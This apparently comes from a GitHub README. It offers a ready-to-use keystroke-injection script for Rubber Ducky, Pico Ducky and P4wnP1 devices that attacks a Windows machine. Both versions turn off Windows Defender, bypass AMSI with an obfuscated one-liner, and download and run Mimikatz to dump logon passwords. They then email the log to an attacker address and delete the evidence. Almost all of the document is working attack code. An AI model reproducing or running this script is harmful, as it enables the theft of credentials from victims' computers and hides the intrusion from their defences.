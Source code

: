 # Credentials - Mimikatz + Send Result to Mail

## Description

This is a simple HIDScript that disable windows defender, run Mimikatz (logonPasswords) and save the result to log.
Then it send to your mail the log as attachment, delete Mimikatz and log files and finally re-enable windows defender.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.

2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

3. Change the sender e-mail/password and set the attacker email that will receive the mail with the Mimikatz log attached to.

4. To deliver the mail, you need first to allow less secure app to access you'r Gmail account. To do this you need first to disable 2FA, then enable less secure app (<a href="https://myaccount.google.com/lesssecureapps">direct link</a>). I suggest to create a Gmail account only for this purpose, instead of using you'r personal account if you are using Gmail. As you need to disable 2FA it expose you'r account.

## Rubber/Pico Ducky Version

```bash
GUI r
DELAY 1000
STRING windowsdefender:
ENTER
DELAY 1000
ENTER
DELAY 1000
TAB
TAB
TAB
TAB
ENTER
DELAY 1000
SPACE
DELAY 1000
LEFT
DELAY 1000
ENTER
DELAY 1000
GUI r
DELAY 1000
STRING powershell.exe start-process powershell -verb runas
ENTER
DELAY 1500
LEFT
ENTER
DELAY 1000
STRING [Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)
ENTER
DELAY 1000
STRING (New-Object System.Net.WebClient).DownloadFile('https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip','C:\\mimikatz_trunk.zip')
ENTER
DELAY 1000
STRING cd /
ENTER
DELAY 1000
STRING mkdir mimi
ENTER
DELAY 1000
STRING Expand-Archive -Path mimikatz_trunk.zip -DestinationPath C:\\mimi
ENTER
DELAY 1500
STRING cd mimi\\x64
ENTER
DELAY 1000
STRING .\\mimikatz.exe
ENTER
DELAY 1000
STRING log log.txt
ENTER
DELAY 1000
STRING privilege::debug
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 1000
STRING $emailSmtpServer = 'smtp.gmail.com';$emailSmtpServerPort = '587';$emailSmtpUser = 'sender@gmail.com';$emailSmtpPass = 'YourSuperPassword';$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = 'HIDScript LogonPassword Mimikatz <sender@gmail.com>';$emailMessage.To.Add('attacker@protonmail.com');$emailMessage.Body = 'W00tW00t, You received one log file, see attachment!';$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = 'C:\\mimi\\x64\\log.txt';$emailMessage.Attachments.Add($attachment);$SMTPClient.Send($emailMessage)
ENTER
DELAY 2000
STRING cd /
ENTER
DELAY 200
STRING rmdir mimi
ENTER
DELAY 1000
STRING T
ENTER
DELAY 1000
STRING del mimikatz_trunk.zip
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 1000
SPACE
DELAY 1000
ALT F4
```

## P4wnP1 Version

```bash
layout("ch")
press("GUI r")
delay(1000)
type("windowsdefender:")
press("ENTER")
delay(1000)
press("ENTER")
delay(1000)
press("TAB")
press("TAB")
press("TAB")
press("TAB")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("LEFT")
delay(1000)
press("ENTER")
delay(1000)
press("GUI r")
delay(200)
type("powershell.exe start-process powershell -verb runas")
press("ENTER")
delay(1500)
press("LEFT")
press("ENTER")
delay(1000)
type("[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)")
press("ENTER")
delay(1000)
type("(New-Object System.Net.WebClient).DownloadFile('https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip','C:\\mimikatz_trunk.zip')")
press("ENTER")
delay(1000)
type("cd /")
press("ENTER")
delay(500)
type("mkdir mimi")
press("ENTER")
delay(500)
type("Expand-Archive -Path mimikatz_trunk.zip -DestinationPath C:\\mimi")
press("ENTER")
delay(1500)
type("cd mimi")
press("ENTER")
delay(500)
type("cd x64")
press("ENTER")
delay(500)
type(".\\mimikatz.exe")
press("ENTER")
delay(1000)
type("log log.txt")
press("ENTER")
delay(1000)
type("privilege::debug")
press("ENTER")
delay(1000)
type("sekurlsa::logonPasswords")
press("ENTER")
delay(1000)
type("$emailSmtpServer = 'smtp.gmail.com';$emailSmtpServerPort = '587';$emailSmtpUser = 'sender@gmail.com';$emailSmtpPass = 'YourSuperPassword';$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = 'HIDScript LogonPassword Mimikatz <sender@gmail.com>';$emailMessage.To.Add('attacker@protonmail.com');$emailMessage.Body = 'W00tW00t, You received one log file, see attachment!';$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = 'C:\\mimi\\x64\\log.txt';$emailMessage.Attachments.Add($attachment);$SMTPClient.Send($emailMessage)")
press("ENTER")
delay(2000)
type("cd /")
press("ENTER")
type("rmdir mimi")
press("ENTER")
delay(1000)
type("T")
press("ENTER")
delay(1000)
type("del mimikatz_trunk.zip")
press("ENTER")
delay(500)
type("exit")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("ALT F4")

```
